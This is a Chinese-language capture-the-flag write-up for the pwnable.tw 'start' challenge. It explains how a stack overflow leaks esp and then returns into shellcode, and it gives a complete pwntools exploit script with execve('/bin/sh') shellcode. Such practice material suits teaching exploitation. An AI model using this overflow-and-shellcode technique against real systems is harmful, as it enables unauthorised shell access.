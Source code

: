 检查文件信息
![[Image/pwnable.tw_image/1.png]]
无任何保护，看反汇编 
![[Image/pwnable.tw_image/2.png]]

如若利用shellcode得到shell则需要考虑esp如何获取的问题，很明显这里大概率不存在jump esp这种指令，仔细观察会发现它有push esp 指令，再看0x8048087这行语句，
ecx也就是esp作为write&read参数输出且输入。我们先利用read函数进行溢出，ret到0x8048082这个地址，此时栈里的值是push esp ，它作为缓冲区给write当参数，在编写脚本的时候利用sh.recv(4)接收输出的四个字节，也就是esp的地址，要注意第二次溢出的时候要把接收到的esp地址+0x14，因为最后要add esp,0x14，最后注意编写脚本的时候send()与sendline()的区别，后者会发送一个/n(0x0a)

这是exp
```
from pwn import *
import time

#context(arch='i386',os='linux')
#context(log_level='debug')

#sh = process('./start')
sh = remote('chall.pwnable.tw',10000)

#直到输入:
sh.recvuntil(':')
#gdb.attach(sh)
#sleep(15)

#第一次溢出点跳转点
jmp1 = 0x08048087
#第一次发送，获取esp地址
payload = flat([b'A'*20],jmp1)
#两种方式的payload
#payload =b'A'*20 + p32(jmp1)

#不要使用sendline()，会导致增加一个/n
sh.send(payload)

get_esp = u32(sh.recv(4))
print(get_esp)

#shellcode版本
shellcode = asm("""
xor ecx,ecx;
push ecx;
push 0x0068732f;
push 0x6e69622f;
mov ebx,esp;
mov eax,0xb;
xor edx,edx
int 0x80"""
)

#字符版本
test_shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x00'

payload = flat([b'B'*20,get_esp+20,shellcode])
sh.send(payload)

sh.interactive()

```